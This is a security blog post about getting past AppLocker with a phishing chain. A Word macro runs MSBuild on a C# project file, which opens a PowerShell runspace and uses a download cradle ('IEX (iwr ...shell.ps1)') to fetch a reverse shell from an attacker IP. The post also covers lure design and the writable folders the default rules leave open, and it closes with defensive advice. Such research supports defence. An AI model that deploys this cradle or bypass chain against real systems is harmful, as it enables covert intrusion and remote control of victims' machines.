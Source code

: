 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }


### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and so simulated phishing campaigns and user awareness training are extremely important. However, there can never be complete assurance against credential divulgence or execution of malicious code via crafted (or not so crafted) phishing attacks, and so it is critical that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. Commonly, the default AppLocker rules (listed below) are applied.


![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }


Since Powershell has gained recognition for being the attacker's language of choice, organisations are increasingly blocking it. However, blocking powershell.exe alone is not sufficient as there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with (as Casey Smith puts it) the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked powershell.exe.


![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }


However, assuming that MSBuild.exe is allowed, we can have it execute a ".csproj" (Visual Studio .NET C# Project file) and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.


<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>


This executes the second stage of our payload via a PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>


Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.


<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>


The `WindowType` parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for your simulated phishing campaigns. The "Document created in newer/older Office version" lure is one I find especially convincing. John has also put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

Our FailedPayment.doc lure:

![lure]({{ site.url }}/images/phishing-lure.png){: .center-image }


Now that the "malicious" document has been created we can test it out.

Once the user opens the document and enables macros, our powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner. All completely invisible to the user.


![rules]({{ site.url }}/images/shell.png){: .center-image }


We can see that this payload is also an effective means of bypassing PowerShell Contrained Language mode.

This is not a particularly stealthy attack as the .csproj is written to disk, and no attempt was made to obfuscate any part of the payload.

Hopefully, this example highlights the danger of "misplaced trust" binaries such as MSBuild. Companies should block their use unless explicitely required for certain users (e.g. developers).

Oddvar Moe ([@Oddvarmoe](https://twitter.com/oddvarmoe)) maintains an excellent [collection](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which is a good list of the "misplaced trust" binaries that IT departments should additonally consider blocking.

Additionally, if a company has decided to block PowerShell using Application Whitelisting, then the following PowerShell binaries and assemblies should be part of the exception block list.


<script src="https://gist.github.com/egre55/61b6cd2b23b605e6a017e81e5cb97f3e.js"></script>


Even after blocking the above, there are multiple methods an attacker could use to instantiate a Powershell runspace, for example by downloading a custom binary to one of the writable and executable folders within Windows that AppLocker default rules has whitelisted. On my computer, these are:

`C:\Windows\Tasks\*
C:\Windows\System32\catroot2\*
C:\Windows\Temp\*
C:\windows\System32\spool\drivers\color\*
C:\Windows\SysWOW64\Tasks\*
C:\Windows\debug\WIA\*
C:\Windows\System32\Tasks\*`

Companies should also consider blocking macros for users who don't need this functionality, and consider crafting a custom whitelisting policy, mindful of the permissiveness of default rules.

Ultimately, an "assume breach" mentality is paramount, but before compromise we have to make it as hard as possible for an attacker to gain that initial foothold.
